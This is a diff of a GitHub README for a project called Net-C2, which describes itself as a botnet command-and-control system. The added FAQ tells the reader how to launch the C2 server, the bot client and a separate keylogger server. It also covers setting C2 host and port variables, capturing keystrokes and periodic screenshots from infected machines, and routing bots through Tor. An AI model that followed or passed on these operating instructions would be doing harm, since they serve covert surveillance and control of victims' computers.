

Before and after one commit to zer0crypt02/Net-C2, a Markdown page: README.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -382,3 +383,66 @@ system_info = bot.gather_system_info()
 vm_check = bot.check_vm_environment()
 ```
 
+## ❓ FAQ
+
+### 🚀 Getting Started
+
+**How do I start the botnet system?**
+
+Follow these steps in order:
+1. `python3 Server.py` (Main C2 server)
+2. `python3 Kserver.py` (Optional - for keylogger)
+3. `python3 Net.py` (Bot client)
+4. `web start` (Optional - Web dashboard)
+
+**How do I use environment variables for connection?**
+
+Set them before running the bot:
+```bash
+export C2_HOST=192.168.1.100
+export C2_PORT=8080
+python3 Net.py
+```
+
+### 🔧 Troubleshooting
+
+**Bot is not connecting to the server. What should I do?**
+
+Check these common issues:
+- Ensure Server.py is running first
+- Check if firewall is blocking the connection
+- Verify C2_HOST and C2_PORT environment variables
+- Make sure both bot and server are on the same network
+
+**Web Dashboard is not working. How to fix?**
+
+- Start the web dashboard with `web start` command in Server.py
+- Access it at `http://localhost:5500`
+- Make sure Flask and Flask-SocketIO are installed
+- Check if port 5500 is available
+
+### 🔑 Keylogger & Screenshots
+
+**What is the difference between keylogger and Kserver.py?**
+
+- `keylogger start/stop` commands control the bot's keylogging
+- `Kserver.py` is a separate server that receives keylog data
+- You need to run Kserver.py separately for keylogger to work
+
+**How do I take screenshots from bots?**
+
+Use these commands:
+- `screenshot <bot_id>` - Single screenshot
+- `ss start <bot_id>` - Automatic screenshots every 10 seconds
+- `ss stop <bot_id>` - Stop automatic screenshots
+- Screenshots are saved to `ScreenS/` folder
+
+### 🌐 Network & Security
+
+**How do I enable Tor network?**
+
+- Install Tor on your system
+- Use `tor enable` command in Server.py
+- Bots will automatically use Tor proxy when available
+- Check status with `tor status`
+
````
Also changed, not shown: other parts of README.md (+31 -0 lines).
